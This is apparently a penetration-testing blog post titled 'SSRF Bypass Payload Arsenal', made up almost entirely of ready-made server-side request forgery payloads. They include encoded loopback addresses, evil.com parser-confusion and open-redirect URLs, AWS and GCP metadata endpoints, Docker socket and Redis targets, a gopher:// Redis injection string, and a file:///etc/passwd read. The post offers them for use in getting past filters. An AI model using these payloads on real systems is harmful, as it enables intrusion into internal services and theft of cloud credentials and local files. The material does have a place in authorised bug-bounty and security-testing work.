 ```yaml
---
title: " SSRF Bypass Payload Arsenal"
date: 2025-07-26 00:00:00 +0530
categories: [Vulnerability, SSRF]
tags: [Pentesting, Bug Bounty, SSRF, Vulnerability]
---
```


**These help bypass SSRF filters or reach internal services despite basic protections.**

### Common SSRF Filters You Might Face
-   Allowlist/Blacklist of domain or IP
-   `url.startsWith("http://")` or regex filtering
-   IP resolution checks (blocking `127.0.0.1`, etc.)
-   Schema restrictions (`http` only)

### IP Obfuscation Tricks
| Format | Payload Example | Purpose |
|--|--|--|
| Decimal | http://2130706433/ | 2130706433 = 127.0.0.1 |
| Hex | http://0x7f000001/ | Same as 127.0.0.1 |
| Octal | http://0177.0.0.1/ | Works if octal parsing is enabled |
| Mixed | http://127.1/ , http://127.000.000.001/ | Abbreviated loopback |
| Dotted Hex | http://0x7f.0x00.0x00.0x01/ | Segment-based hex |
| IPv6 | http://[::1]/ | Loopback IPv6 |
| DNS rebinding | Point DNS to internal IP | Server sees public IP but resolves internal |
| Encoded dots | http://127%2e0%2e0%2e1/ | URL-encoded dot bypass |

### Hostname Tricks

| Trick Type | Example |
|--|--|
| @ Symbol Confusion | http://127.0.0.1@evil.com/ |
| Reversed @ | http://evil.com@127.0.0.1/ |
| Fragment Bypass | http://127.0.0.1#evil.com/ |
| Encoded Fragment | http://127.0.0.1%23evil.com/ |

### Redirection & Open Redirect

| Type | Example |
|--|--|
| Redirect → Internal | http://evil.com/redirect?url=127.0.0.1 |
| Double Redirect Chain | evil.com → internal.com → 127.0.0.1 |
| URL Shortener Bypass | tinyurl.com/internalip |

### Redirect Bypass Tricks
```bash
http://evil.com/redirect?next=http://127.0.0.1/
```
| Trick | Description |
|--|--|
| Open Redirect + SSRF | Combine vulnerable redirect to reach internal resources |
| Double Redirect | Redirects to a URL that further redirects to internal IP |
| Wildcard DNS | Use domains like anything.yourdomain.com to simulate internal subdomains |
| URL shorteners | TinyURL or your own shortener to mask real internal target |

### URL Parser Confusion Tricks

| Payload | Behavior |
|--|--|
| http://127.0.0.1@evil.com/ | Looks like internal IP, but resolves to evil.com |
| http://evil.com@127.0.0.1/ | Most parsers think host is 127.0.0.1 |
| http://127.0.0.1#evil.com/ | Fragment ignored by server, only browser cares |
| http://127.0.0.1%23evil.com/ | Encoded # to confuse filters |

### SSRF to Internal Services
| Target | Payload |
|--|--|
| AWS Metadata | http://169.254.169.254/latest/meta-data/ |
| GCP Metadata | http://169.254.169.254/computeMetadata/v1/ (Add Metadata-Flavor: Google ) |
| Docker socket | http://localhost:2375/containers/json |
| Redis | gopher://127.0.0.1:6379/_PING |
| MySQL | mysql://127.0.0.1:3306/ |
| Memcached | memcached://127.0.0.1:11211

### Protocol Smuggling (Advanced)
If server allows more than `http://` ,  try :

-   `file://` – access local files
-   `gopher://` – inject raw bytes (Redis, FTP, etc.)
-   `dict://127.0.0.1:11211/` – another bypass channel
-   `ftp://`, `sftp://`, etc. – protocol abuse

Example :

```bash
gopher://127.0.0.1:6379/_%2a1%0d%0a%24%34%0d%0aPING%0d%0a
```

| Protocol | Payload Example |
|--|--|
| file:// | file:///etc/passwd |
| gopher:// | gopher://127.0.0.1:6379/... |
| dict:// | dict://127.0.0.1/ |
| ftp:// | ftp://127.0.0.1/ |


